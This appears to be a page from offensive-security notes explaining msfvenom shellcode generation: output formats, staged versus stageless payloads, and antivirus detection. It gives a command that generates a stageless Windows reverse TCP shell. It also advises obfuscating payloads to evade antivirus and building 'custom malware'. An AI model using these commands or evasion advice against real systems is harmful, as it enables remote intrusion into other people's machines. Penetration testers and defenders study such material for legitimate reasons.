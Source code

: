 ```yaml
---
label: Generators
order: 999
subLabel: (Msfvenom)
---
```


# Shellcode Generators

There are open-source shellcode generators. They can usually generate different payloads with encoding and encryption for different programming languages. The best known is `msfvenom`. Usually mature and expensive C2 (Command & Control) frameworks have their own compatible shellcode generators.

## Msfvenom

Msfvenom allows payloads to be prepared very quickly, but all serious antiviruses are very familiar with the payloads it generates. **Without additional encoding or obfuscation, there is no chance of using any generated payload in a real-world scenario**. It will be detected immediately.

Msfvenom has basically two output formats:

- Transform formats: generate a payload simply as a variable ready for use in various programming languages (such as C or C#). All serious antiviruses are very familiar with the payloads it generates. **Without additional encoding or obfuscation, there is no chance of using any generated payload in a real-world scenario**. But it's still useful as a basis to further encryption or encoding and custom template development.
- Executable gormats: generate a ready-made executable file (`.exe`, `.dll`, `.vbs` and so on). **Do not use this option. All these generated templates are very well detected by all antiviruses**. Encryption and encoding doesn't actually change anything, because antiviruses detect the executable file template itself, not the payload.

There are two basic categories of msfvenom shellcodes:

- stageless (e.g. `windows/x64/shell_reverse_tcp`) - the generated payload contains everything needed to connect back to the listener.
- staged (e.g. `windows/x64/shell/reverse_tcp`) - the generated payload contains only a downloader of the actual shellcode from an external server (Metasploit listeners).

> **NOTE**: There are also payloads prepared specifically to work with the open-source Metasploit C2 framework. In addition to the standard remote shell, they add a lot of additional offensive functionality. The naming convention is the same as the ones given above, but instead of the word "shell" they contain the word "meterpreter".

```bash
# List of all available payloads
msfvenom --list payloads

# List of all available output formats
msfvenom --list formats

# Stageless reverse TCP shell in C format
msfvenom -p windows/x64/shell_reverse_tcp -f c LHOST=$ip LPORT=$port
```

We can use the generated shellcode in many different programming languages to create our own custom malware.
